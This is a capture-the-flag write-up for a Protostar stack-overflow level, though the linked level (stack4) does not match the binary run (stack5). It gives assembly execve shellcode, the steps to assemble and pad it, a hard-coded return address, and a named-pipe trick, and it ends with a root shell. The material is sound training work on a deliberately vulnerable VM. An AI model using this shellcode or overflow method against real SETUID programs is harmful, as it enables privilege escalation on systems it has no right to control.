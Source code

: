 ## Description

[Problem source](https://exploit-exercises.com/protostar/stack4/)


### Solution

This level is considerably harder than the previous ones. In order to solve this
problem we'll need to create our own custom binary snippet, called the
`shellcode`, that we'll inject on the stack in order to execute `execve` and get
the shell access through the SETUID program.

We already know from the previous levels, that we can jump on an arbitrary
address in our program. This means that, if the stack is executable, we can jump
onto the stack as well. We can overflow the buffer with the machine code that
will execute execve and jump on that address. In real world this won't be
possible because stack in most cases is not executable and also ASLR assigns
random address to the stack, making it nearly impossible to guess the address of
our machine code.

Let's start by writing the execve shellcode:
	
	.section .text
	 _start:
	         mov $0x0b, %eax
	         lea -0x3b(%esp), %ebx #program string
	         mov $0, %ecx
	         mov $0, %edx
	         int $0x80
	 program:
	         .asciz "/bin/sh"

Compile and link it.

	as injection.S -o inj.o
	ld inj.o -o inj

Extract naked binary from ELF:

	objcopy -O binary inj inj.bin
	wc -c inj.bin

The size of our naked binary is 29 bytes. The distance between buffer and the
return address is 76 bytes. So we'll need to add 76 - 29 = 47 bytes of padding

	python -c "print('a' * 47)" >>inj.bin

Now at this point we need to know what is the absolute address of our buffer on
the stack, so we can overwrite the return pointer with that address. Using `gdb`
and running the program in the shell will provide different addresses because,
these two programs will run in different environments. As environmental
variables are pushed on the stack, if the size of env variables differ, so will
the address of our buffer. To mitigate this problem we can either add `nop`
paddings at the beginning of our code and expect that our `gdb` environment is
smaller than the one that the shell provides or we can ensure that we'll run our
program in the same environment as `gdb`. The $_ $PWD $OLDPWD and argv[0] should
be same in `gdb` and shell, and most likely our addresses will the same. In my
case the address is `0xbffff750`, so I'll add the address to my injection file.

	python -c "print('\x50\xf7\xff\xbf')" >>inj.bin

Next challenge is providing the program with an input. If we use the simple
pipe, it won't work as our first program will consume all the data from the pipe
and won't leave anything for bash and bash, not seeing any input on the
stdin, will simply quit. One solution to that problem is to create a named
pipe.and using `tail -f` to keep the shell from exiting.

	mkfifo fifo_tmp
	tail -c 100 -f ~/fifo_tmp | /opt/protostar/bin/stack5
	cat inj.bin >>fifo_tmp
	echo "whoami" >>fifo_tmp
		root
	echo "anycommand" >>fifo_tmp



## Lessons learned

gets stops reading after newline or null char, so the string `/bin/bash` should
be the last. (should check)

